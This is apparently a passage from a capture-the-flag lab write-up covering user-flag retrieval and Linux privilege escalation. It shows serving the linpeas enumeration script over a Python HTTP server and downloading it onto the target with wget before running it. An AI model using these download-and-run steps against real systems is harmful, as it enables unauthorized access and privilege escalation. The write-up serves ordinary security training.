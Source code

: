  Then setting the TERM so that you are able to clean the terminal:
 ```bash
 export TERM=xterm
 ```

Then i listed the files and  you can get the **user.txt** by

#### code-user
```shell
cat user.txt
```

##  Privillage Escalation
so we now need to get the root so i decide to use the same password with the sudo but it refused the password seems  to be not the same so i decide to use **linpeas** which is s **a well-known enumeration script that searches for possible paths to escalate privileges on Linux/Unix* targets**. https://github.com/carlospolop/PEASS-ng use the latest i downloaded linpeas to my local machine and fowarded it to the box 

use this code to get your ip  tun and use that ip to foward linpeas to the box

#### code-tun0
```shell
ip addr show dev tun0
```

start a python server to where you have downloaded your linpeas you can use your own port

#### code-server
```shell
python3 -m http.server 
```

Then to the box use this code to to get linpeas.sh

#### code-linpeas
```shell
wget ip/linpeas.sh
```

![[linpeas.png]]

so you run linpeas using this

#### code-run linpeas
```shell
bash linpeas.sh
```

so after running linpeas i found and doing some digging i found out that there is  a python script that can execute the privillage escalations 

#### code-python script
```shell
import os

import sys

import time

import subprocess

import random

import pwd

print ("**************")

```